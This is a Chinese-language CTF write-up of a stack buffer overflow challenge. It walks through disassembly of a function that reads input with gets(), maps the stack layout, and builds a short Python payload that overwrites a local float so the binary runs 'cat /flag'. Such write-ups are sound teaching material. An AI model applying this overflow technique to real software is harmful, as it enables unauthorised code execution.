

先看防护 发现可以溢出



查看反汇编代码

~~~asm
00400676    int64_t func()

00400682        int32_t var_c = 0
0040068c        puts(str: "Let's guess the number.")
0040069d        char buf[0x2c]
0040069d        gets(&buf)
0040069d        
004006bc        if (not(is_unordered.d(var_c, 11.28125f)) && not(var_c f!= 11.28125f))
004006c8            return system(line: "cat /flag")
004006c8        
004006d4        return puts(str: "Its value should be 11.28125")
~~~

很简单，函数中对比参数var_c和一个小数的大小，如果相同即可拿到flag。

一眼望去有gets，我们可以进行溢出将该变量的大小进行修改。

~~~asm
00400676    int64_t func()

00400676  55                 push    rbp {__saved_rbp}
00400677  4889e5             mov     rbp, rsp {__saved_rbp}
0040067a  4883ec30           sub     rsp, 0x30
0040067e  660fefc0           pxor    xmm0, xmm0
00400682  f30f1145fc         movss   dword [rbp-0x4 {var_c}], xmm0  {0x0}
00400687  bfb4074000         mov     edi, 0x4007b4  {"Let's guess the number."}
0040068c  e88ffeffff         call    puts
00400691  488d45d0           lea     rax, [rbp-0x30 {buf}]
00400695  4889c7             mov     rdi, rax {buf}
00400698  b800000000         mov     eax, 0x0
0040069d  e8aefeffff         call    gets
004006a2  f30f1045fc         movss   xmm0, dword [rbp-0x4 {var_c}]
004006a7  0f2e0546010000     ucomiss xmm0, dword [rel data_4007f4]
004006ae  7a1f               jpe     0x4006cf

004006b0  f30f1045fc         movss   xmm0, dword [rbp-0x4 {var_c}]
004006b5  0f2e0538010000     ucomiss xmm0, dword [rel data_4007f4]
004006bc  7511               jne     0x4006cf

004006be  bfcc074000         mov     edi, 0x4007cc  {"cat /flag"}
004006c3  b800000000         mov     eax, 0x0
004006c8  e863feffff         call    system
004006cd  eb0a               jmp     0x4006d9

004006cf  bfd6074000         mov     edi, 0x4007d6  {"Its value should be 11.28125"}
004006d4  e847feffff         call    puts

004006d9  90                 nop     
004006da  c9                 leave    {__saved_rbp}
004006db  c3                 retn     {__return_addr}

~~~

查看汇编代码 关键代码有

~~~asm
00400682  f30f1145fc         movss   dword [rbp-0x4 {var_c}], xmm0  {0x0}

00400691  488d45d0           lea     rax, [rbp-0x30 {buf}]
~~~

证明var_c存在rbp-0x4，buf存在rbp-0x30

画一个简单的栈图

```
高地址
+-------------------------+
|          rip            |  
+-------------------------+
|          rbp            |  
+-------------------------+
|                         |
|                         |
+-------------------------+ 
|          var_c          | ← rbp-0x4
+-------------------------+ 
|                         |
+-------------------------+ 
|          buf            | ← rbp-0x30
+-------------------------+
低地址
```

栈的生长方向是从高地址往低地址生长，数据存储是从低地址往高地址存储

所以想要覆盖var_c需要溢出0x30-0x4的大小，同时需要将小数转化成小端法存储，所以我们payload构造就是：

~~~python
f = 11.28125
hex_value = struct.pack('<f', f)
payload = b'A'*(0x30-0x4)+hex_value
~~~


